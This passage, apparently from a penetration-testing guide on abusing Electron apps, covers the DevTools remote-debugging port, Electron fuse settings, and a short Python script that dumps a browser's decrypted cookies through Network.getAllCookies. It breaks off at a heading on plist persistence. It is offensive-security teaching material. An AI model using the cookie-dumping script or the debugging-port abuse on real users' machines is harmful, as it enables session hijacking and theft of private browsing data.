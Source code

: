 ```python

    # Read messages until we get our command result
    while True:
        response = await ws.recv()
        data = json.loads(response)

        # Print for debugging
        print(f"[{method} / {CONT}] ->", data)

        if get_first:
            return data

        # If this message is a response to our command (by matching "id"), break
        if data.get("id") == CONT:
            return data

        # Otherwise it's an event or unrelated message; keep reading

if __name__ == "__main__":
    asyncio.run(main())
```

> [!CAUTION]
> If the fuse **`EnableNodeCliInspectArguments`** is disabled, the app will **ignore node parameters** (such as `--inspect`) when launched unless the env variable **`ELECTRON_RUN_AS_NODE`** is set, which will be also **ignored** if the fuse **`RunAsNode`** is disabled.
>
> However, you could still use the **electron param `--remote-debugging-port=9229`** but the previous payload won't work to execute other processes.

Using the param **`--remote-debugging-port=9222`** it's possible to steal some information from the Electron App like the **history** (with GET commands) or the **cookies** of the browser (as they are **decrypted** inside the browser and there is a **json endpoint** that will give them).

You can learn how to do that in [**here**](https://posts.specterops.io/hands-in-the-cookie-jar-dumping-cookies-with-chromiums-remote-debugger-port-34c4f468844e) and [**here**](https://slyd0g.medium.com/debugging-cookie-dumping-failures-with-chromiums-remote-debugger-8a4c4d19429f) and use the automatic tool [WhiteChocolateMacademiaNut](https://github.com/slyd0g/WhiteChocolateMacademiaNut) or a simple script like:

```python
import websocket
ws = websocket.WebSocket()
ws.connect("ws://localhost:9222/devtools/page/85976D59050BFEFDBA48204E3D865D00", suppress_origin=True)
ws.send('{\"id\": 1, \"method\": \"Network.getAllCookies\"}')
print(ws.recv()
```



### Injection from the App Plist

You could abuse this env variable in a plist to maintain persistence adding these keys:

